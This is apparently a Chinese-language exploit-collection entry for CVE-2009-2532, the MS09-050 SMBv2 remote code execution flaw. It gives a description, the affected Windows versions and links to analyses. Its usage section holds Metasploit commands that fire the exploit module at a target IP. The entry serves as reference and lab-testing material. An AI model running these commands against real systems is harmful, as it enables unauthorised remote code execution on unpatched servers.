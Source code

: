 ### CVE-2009-2532

#### 描述

无法正确处理SMB多协议协商请求数据包中的命令值，这使远程攻击者可以通过精心制作的SMBv2执行任意代码 数据包发送到服务器服务

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows Server 2008 | X64/X86          |         | SP2    | &#10004; |
| Windows Server 2008 | X86/X64          |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         | SP2    |                    |
| Windows Vista       |                  |         |        |                    |

#### 利用方式

利用msf 测试系统Windows Server 2008 SP2 x86

```
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
set RHOSTS 192.168.1.13 #目标IP
run
```

![image-20200823134421895](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2009-2532_win2008_x86_msf.png)

#### 分析文章
- https://www.giantbranch.cn/2017/08/26/Educatedscholar%E5%88%A9%E7%94%A8%E7%9A%84%E6%BC%8F%E6%B4%9Ems09-050%E5%88%86%E6%9E%90%E5%8F%8A%E5%85%B6%E5%88%A9%E7%94%A8%E7%9A%84shellcode%E5%88%86%E6%9E%90%E5%8F%8A%E4%B8%8Emsf%E5%88%A9%E7%94%A8%E5%AF%B9%E6%AF%94/
- https://zhuanlan.zhihu.com/p/27155431